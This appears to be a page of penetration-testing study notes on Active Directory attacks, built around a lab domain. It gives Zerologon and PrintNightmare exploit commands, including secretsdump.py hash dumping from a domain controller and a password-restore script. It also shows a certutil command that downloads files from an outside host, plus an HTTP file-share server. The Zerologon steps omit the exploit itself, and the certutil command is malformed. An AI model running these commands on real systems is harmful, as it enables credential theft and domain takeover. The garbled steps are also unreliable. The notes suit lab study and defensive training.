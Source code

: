 # Additional AD attacks

CVE-2020-1472=> This is Abusing **Zerologon**.

URL=>https://github.com/SecuraBV/CVE-2020-1472

How to do=>

1.We get Administrator hash from here
```bash
secretsdump.py -just-dc MARVEL/HYDRA-DC\$@192.168.138.132
```

2.Now ,we need to get 'plain_password_hex' by using hash in below format.
```bash
secretsdump.py administrator@192.168.138.132 --hashes [LM:NTLM_HASH]
```

3.Now, we use script from Github as below
```bash
python3 restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target-ip 192.168.138.132 -hexpass [HEX_VALUE]
```


CVE-2021-1675=> This is **PrintNightmare**

URL=https://github.com/cube0x0/CVE-2021-1675

How to check this=> For this, we use rpcdump.py script
```bash
rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'
```

# AD Case Studies

Case 1: https://tcm-sec.com/pentest-tales-001-you-spent-how-much-on-security
Case 2: https://tcm-sec.com/pentest-tales-002-digging-deep

# Post Exploitation

File Transfers

1.Powershell for Windows
```powershell
certutil.exe --urlcache -certuil -f http://10.0.0.0/example.txt example.txt
```

2.HTTP server to share files on directory
```bash
python3 -m http.server [port]
```

# Result
[Click me!](https://www.linkedin.com/feed/update/urn:li:activity:7172077875397967872/)

